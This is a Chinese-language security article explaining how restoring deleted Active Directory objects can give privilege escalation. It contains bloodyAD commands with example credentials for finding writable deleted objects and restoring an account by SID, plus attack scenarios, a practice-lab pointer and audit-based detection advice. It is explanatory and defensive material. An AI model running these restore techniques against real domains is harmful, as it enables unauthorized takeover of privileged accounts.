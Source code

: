 SharpHound即使以域管理员身份运行，也不会收集已删除对象，尽管文档中提到可以（[见BloodHound文档](https://bloodhound.specterops.io/collect-data/permissions#granting-access-to-the-deleted-objects-container-optional)）。  
因此BloodHound CE **无法**检测已删除对象带来的权限提升机会。

## 真实场景

一旦攻击者确保对已删除对象、OU和**Restore Tombstoned**权限具备足够权限：

````powershell
$ bloodyAD --host 192.168.100.3 -d bloody -u john -p 'Password123!' get writable --include-del
[...]
distinguishedName: CN=garbage.admin\0ADEL:c9e8a129-f77f-4159-b700-3c8fd06963fe,CN=Deleted Objects,DC=bloody,DC=corp
permission: WRITE
[...]
DistinguishedName: CN=Users,DC=bloody,DC=corp
permission: CREATE_CHILD
````

即可通过sAMAccountName或objectSID轻松恢复对象：

````powershell
$ bloodyAD -u john -d bloody -p 'Password123!' --host 192.168.100.3 set restore 'S-1-5-21-1394970401-3214794726-2504819329-1104'

[+] S-1-5-21-1394970401-3214794726-2504819329-1104 已成功恢复到 CN=garbage.admin,CN=Users,DC=bloody,DC=corp
````

**场景示例：**

- **场景1：恢复已删除的管理员用户**  
  攻击者拥有恢复权限后，恢复一个被删除的域管理员账户。由于该账户保留SID和组成员关系，立即恢复高权限。

- **场景2：SID历史注入**  
  恢复带有特权SID历史的已删除用户对象，用于绕过组成员检查。

- **场景3：ACL利用**  
  已删除组仍被关键资源的ACL引用。攻击者恢复该组并将自己加入，从而获得访问权限。

{{% callout note %}}
有一台HTB靶机叫[TombWatcher](https://www.hackthebox.com/machines/tombwatcher)可供练习。
{{% /callout %}}

## 检测与防御

为防御这些威胁，安全团队可：

- **监控恢复操作**  
  跟踪谁何时恢复了对象。可通过事件日志和SIEM集成实现。\
  通过事件日志中的 _A directory service object was undeleted_ 事件5138进行监控：
  - 无论是否启用回收站，都需启用`Directory Service Changes`审计：
  ```ps1
  AuditPol /set /subcategory:"Directory Service Changes" /success:enable /failure:enable
  ```
  - 或通过组策略：\
  `计算机配置 > 策略 > Windows设置 > 安全设置 > 高级审核策略配置 > 审核策略 > DS访问  
  启用审核目录服务更改`
  - 容器（如CN=Users）或域对象需配置SACL以审计创建操作。使用Active Directory用户和计算机（ADUC）并启用高级功能，右键容器→属性→安全→高级→审核，添加“创建所有子对象”审核项（域对象请启用继承）
